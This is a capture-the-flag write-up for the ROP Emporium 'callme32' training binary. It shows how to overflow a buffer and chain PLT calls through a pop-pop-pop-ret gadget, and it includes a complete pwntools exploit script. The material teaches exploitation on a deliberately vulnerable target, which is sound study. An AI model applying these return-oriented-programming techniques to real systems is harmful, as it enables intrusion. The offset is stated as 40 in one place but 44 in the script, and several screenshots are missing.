# callme32

Link: https://ropemporium.com/challenge/callme.html

Description: *You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments.*

------------------------------------------


## 1. Calculating EIP overwrite offset

First, we check with GDB that the offset is still 40. It seems it is still 40, with 41 characters we see only one "41" in RIP registry::


## 2. Studying the binary

Then, we need to find the addresses of "callme_one", "callme_two" and "callme_three". We can do this with objdump:


But we will use Python directly:

```
callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
```


## 3. Calling the functions

The idea is that in 32 bits, you must push the parameters to the stack before you make the call to a function:

```
push 3   ; third parameter
push 2   ; second parameter
push 1   ; first parameter
call callme_X
```
To move these values to the stack we will use a "pop; ret" gadget for each one or a "pop; pop; pop; ret" one, which we can find using ROPgadget:

```
python /root/tools/ROPgadget/ROPgadget.py --binary callme32
```

- 0x080488a9 : pop esi ; pop edi ; pop ebp ; ret


## 4. Final exploit

The final exploit is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'callme32'
p = process('./'+binary_name)

elf = ELF(binary_name)
rop = ROP(elf)

callme_one =   elf.sym["callme_one"]
callme_two =   elf.sym["callme_two"]
callme_three = elf.sym["callme_three"]
log.info("callme_one:   "+  hex(callme_one))
log.info("callme_two:   "+  hex(callme_two))
log.info("callme_three: "+hex(callme_three))
pop_esi_edi_ebp = 0x080488a9

junk = "A"*44
rop =  junk
rop += p32(callme_one)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)
rop += p32(callme_two)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)
rop += p32(callme_three)
rop += p32(pop_esi_edi_ebp) + p32(1) + p32(2) + p32(3)

p.recvuntil("> ")
p.send(rop)
p.interactive()

```
When I execute it, it returns the value of the flag:




---------------------

---------------------

---------------------

# 2024 update

ltrace shows the buffer size 512:



Disassemble main:


Disassemble pwnme. Buffer size in +60 (0x200 or 512):



Generate pattern and check offset is again 44:




Functions addresses:



Check plt and got.plt addresses:


```
rabin2 -i callme32
```

```
rabin2 -R callme32
```



Read .got.plt and .plt instructions:


All .got.plt content:



All .plt content:



This function just calls the callme_ functions so the correct address is in .plt address:



We find a POP ESI; POP EDI; POP EBP; RET gadget:


Check in GDB:


Craft exploit:



Get flag:


